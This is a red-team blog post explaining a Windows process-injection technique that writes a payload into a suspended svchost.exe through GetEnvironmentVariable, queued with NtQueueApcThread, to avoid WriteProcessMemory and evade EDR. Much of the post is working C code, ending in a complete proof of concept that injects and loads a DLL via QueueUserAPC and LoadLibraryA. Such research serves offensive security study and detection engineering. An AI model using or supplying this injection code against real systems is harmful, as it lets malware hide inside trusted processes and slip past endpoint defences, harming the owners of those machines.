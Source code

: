 ```yaml
---
layout: post
title: GetEnvironmentVariable as an alternative to WriteProcessMemory in process injections
date: 2020-05-28 11:22:33
categories: posts
en: true
description: Brief description of how to use GetEnvironmentVariable as an alternative to WriteProcessMemory
keywords: "GetEnvironmentVariable, WriteProcessMemory, process injection, red team, EDR bypass"
authors:
    - X-C3LL
---
```


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This week I have been playing a bit with process injections (nothing fancy, just doing PoCs with the well-known techniques). Doing this task I started to wonder about alternative ways to write arbitrary content to an known address in the remote process, so I could avoid the use of WriteProcessMemory. I believe that this technique has to be documented somewhere in the intertubes but with my google-fu I could not find any reference to __GetEnvironmentVariable__ and process injection. If you know any article/slide/whatever that references this idea, please ping me at twitter ([@TheXC3LL](https://twitter.com/TheXC3LL)) so I can add it to this article. 

## 0x00 Introduction

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Most common (and jurassic) process injection techniques relies on a common pattern based on VirtualAllocEx -> WriteProcessMemory -> (Change to RX if needed) -> Trigger execution. Luckily in last years new techniques to write the payload inside the remote process have been discovered/implemented (Atom Bombing, Shared-Memory Reuse, NtMapViewOfSection, etc.) and also new ways to trigger the execution (SetWindowLong, PROPagate, WNF callbacks, etc.), so the landscape is growing. 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
I started to play with the idea of finding exported functions from Kernel32.dll that can write from an externally controlled buffer to an arbitrary memory address. Or in other words: we are interested on functions that can read a value controled by the injector and write that value to an arbitrary memory address. We are interested in Kernel32.dll because the addresses of exported functions can be retrieved with GetProcAddress (the virtual addresses will be the same between processes). If we discover a function that fits our requirements, we can call it via QueueUserAPC/NtQueueApcThread.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
I googled for "Kernel32 exports" and found [this list](https://www.geoffchappell.com/studies/windows/win32/kernel32/api/index.htm), and after a few attempts our candidate appeared: GetEnvironmentVariable.

## 0x01 GetEnvironmentVariable

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This function has everything we need:

```c
DWORD GetEnvironmentVariable(
  LPCTSTR lpName,
  LPTSTR  lpBuffer,
  DWORD   nSize
);
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
As we can see in the definition it takes 3 parameters:

- __lpName__: pointer to the name of the environment variable.
- ___lpBuffer__: buffer where the value of the environment variable will be stored
- __nSize__: buffer size


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We can create a suspended process with custom environment variables with __SetEnvironmentVariable__ and __CreateProcess__ and later, from the target processes, read that environment variable and write the content to a buffer...:

```c
SetEnvironmentVariableA("CustomVar", payload);

	bSuccess = CreateProcessA(NULL,
		"c:\\windows\\system32\\SVCHOST.EXE -k NetworkService",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED,
		NULL,
		NULL,
		&siStartInfo,
		&piProcInfo
	);
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
...the only problem is that we need to know an address where that string "CustomVar" exists (to use it as lpName parameter). 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Parameter lpBuffer is known by us because is the location of the memory reserved via VirtualAllocEx and nSize is known too by the same reason. The only "unknown" parameter is the pointer to an environment variable name which content is controlled by us. How can we solve this? 

## 0x02 String reuse

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We cannot find out a priori any pointer to the "CustomVar" string... but we can reuse any string located in a known address __:)__. As we said at the begining, the virtual addresses of kernel32.dll are shared between proceses, so we can create an environment variable using as name a string present in this module. We only need to know the offset where the string lies and calculate the address dynamically. For example, something like:

```c
	hModK = LoadLibraryA("Kernel32");
	address = GetProcAddress(hModK, "AllocConsole"); //Just a reference point
	address = (char *)address + 0x591A8; //SdbInitDatabaseEx in kernel32
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Then call SetEnvironmentVariable with this value and CreateProcess:

```c
SetEnvironmentVariableA("SdbInitDatabaseEx", payload);
CreateProcessA(...)
...
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Lastly we only need to enqueue the call to GetEnvironmentVariable with all the parameters:

```c
NtQueueApcThread(piProcInfo.hThread, GetProcAddress(hModK, "GetEnvironmentVariableA"), address, payload_location, sizeof(payload));
```

## 0x03 PoC || GTFO

```c
#include <stdio.h>
#include <windows.h>
#include <psapi.h>
int main(int argc, char** argv) {
	PROCESS_INFORMATION piProcInfo;
	STARTUPINFOA siStartInfo = { 0 };
	BOOL bSuccess = FALSE;
	char payload[] = "C:\\Test\\alert.dll";
	void* payload_location = NULL;
	HMODULE hModK = NULL;
	HMODULE hModN = NULL;
	char* kernel32_string = NULL;
	FARPROC address = NULL;
	NTSTATUS(NTAPI * NtQueueApcThread)(
		_In_ HANDLE ThreadHandle,
		_In_ PVOID ApcRoutine,
		_In_ PVOID ApcRoutineContext OPTIONAL,
		_In_ PVOID ApcStatusBlock OPTIONAL,
		_In_ ULONG ApcReserved OPTIONAL
		);


	hModK = LoadLibraryA("Kernel32");
	address = GetProcAddress(hModK, "AllocConsole");//Just a reference point
	address = (char *)address + 0x591A8; //SdbInitDatabaseEx in kernel32
	SetEnvironmentVariableA("SdbInitDatabaseEx", payload);

	bSuccess = CreateProcessA(NULL,
		"c:\\windows\\system32\\SVCHOST.EXE -k NetworkService",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED,
		NULL,
		NULL,
		&siStartInfo,
		&piProcInfo
	);

	if (!bSuccess) {
		return -1;
	}

	payload_location = VirtualAllocEx(piProcInfo.hProcess, NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	hModN = LoadLibraryA("ntdll");
	NtQueueApcThread = (NTSTATUS(NTAPI*)(HANDLE, PVOID, PVOID, PVOID, ULONG)) GetProcAddress(hModN, "NtQueueApcThread");
	NtQueueApcThread(piProcInfo.hThread, GetProcAddress(hModK, "GetEnvironmentVariableA"), address, payload_location, sizeof(payload));
	QueueUserAPC(GetProcAddress(hModK, "LoadLibraryA"), piProcInfo.hThread, payload_location);
	ResumeThread(piProcInfo.hThread);
	return 0;
}
```

## 0x04 Conclusions

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This technique is just one more to add to our toolbox. Of course the usage of GetEnvironmentVariable has its drawbacks, like for example the usage of ASCII shellcodes to avoid issues.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
As I said before, I believe this technique probably is documented somewhere but I could not find any source. If you find any reference to this way of avoiding WriteProcessMemory, know more interesting ideas about this topic, or just want ot point me an error/typ feel free to contact me ([@TheXC3LL](https://twitter.com/TheXC3LL)).
